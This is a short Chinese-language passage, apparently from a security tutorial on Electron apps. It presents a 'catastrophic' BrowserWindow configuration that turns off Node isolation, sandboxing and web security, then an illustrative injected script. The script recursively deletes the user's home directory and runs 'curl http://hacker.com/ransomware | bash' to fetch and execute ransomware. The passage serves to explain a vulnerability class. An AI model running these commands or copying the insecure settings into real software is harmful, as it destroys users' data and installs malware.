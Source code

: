   
主进程直接执行渲染进程发送的命令，没有任何验证  
### 高危漏洞场景  
#### 致命配置错误（90% 漏洞根源）  

```
// 灾难性配置 - 禁用所有安全机制
new BrowserWindow({
  webPreferences: {
    nodeIntegration: true,   // 允许直接访问 Node.js
    contextIsolation: false, // 禁用上下文隔离
    sandbox: false,          // 禁用沙箱
    webSecurity: false       // 禁用同源策略
  }
})
```


```
//攻击效果：
<script>
  // 删除用户所有文档
  require('fs').rmdirSync(require('os').homedir(), { recursive: true });


  // 安装勒索软件
  require('child_process').exec('curl http://hacker.com/ransomware | bash');
</script>
```

